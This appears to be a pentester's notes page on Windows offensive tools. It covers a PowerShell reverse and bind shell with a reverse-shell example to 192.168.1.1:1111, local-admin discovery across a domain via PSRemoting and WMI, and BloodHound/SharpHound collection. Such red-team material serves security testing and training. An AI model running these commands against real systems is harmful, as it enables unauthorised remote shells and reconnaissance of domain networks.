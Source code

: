 ## Interesting Tools

### `Invoke-PowerShellTcp.ps1`
---
Opens a shell. Modified Version of the original `Invoke-PowerShellTcp_Old.ps1`. Replacing the main function name to `Power`.

Parameters:
- `Reverse`: To open reverse shell
- `Bind` : Creates a bind shell
- `IPAddress`
- `Port`

Example:
```powershell
C:> . Invoke-PowerShellTcp.ps1      
C:> Power -Reverse -IPAddress 192.168.1.1 -Port 1111
```

### `Find-PSRemotingLocalAdminAccess.ps1`
---
To search for local admin access on machines in a domain or local network for the current user.
Parameters:
- `ComputerFile`: File with computers to check
- `StopOnSuccess`: Stops when found one
Example:
```powershell
PS C:> . .\Find-PSRemotingLocalAdminAccess.ps1       # Import module
PS C:> Find-PSRemotingLocalAdminAccess               # Run the function
COMPUTER-WITH-ACCESS
PS C:>
```
### `Find-WMILocalAdminAccess.ps1`
---
Runs a WMI command against the sepcified list of computers. Since, by-default, we need local administrative access on a computer to run WMI commands, a success for this fucntions means local administrative access.

parameters: Same as previous tool
```powershell
PS C:> . .\Find-WMILocalAdminAccess.ps1
PS C:> Find-WMILocalAdminAccess
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA544
Version         : 10.0.14393
The current user has Local Admin access on: SERVER.domain.local
SystemDirectory : C:\Windows\system32
Organization    :
BuildNumber     : 14393
RegisteredUser  : Windows User
SerialNumber    : 00377-80000-00000-AA549
Version         : 10.0.14393
The current user has Local Admin access on: COMPUTER.domain.local
PS C:>
```

### BloodHound
---

Setup:
- Install and run neo4j:
```powershell
C:> neo4j.bat install-service
C:> neo4j.bat start
```
- Go to http://localhost:7474 and log using `neo4j` and `neo4j`.
- Change the password for `neo4j` user to the desireed one
- Run `BloodHound.exe` from `BloodHound-win32-x64`
- Will ask for credentials: bolt://localhost:7687  -  neo4j  -  PASSWORD

Run Collectors:

- Powershell:
```powershell
C:> . .\SharpHound.ps1
C:> Invoke-BloodHound -CollectionMethod All -Verbose
```
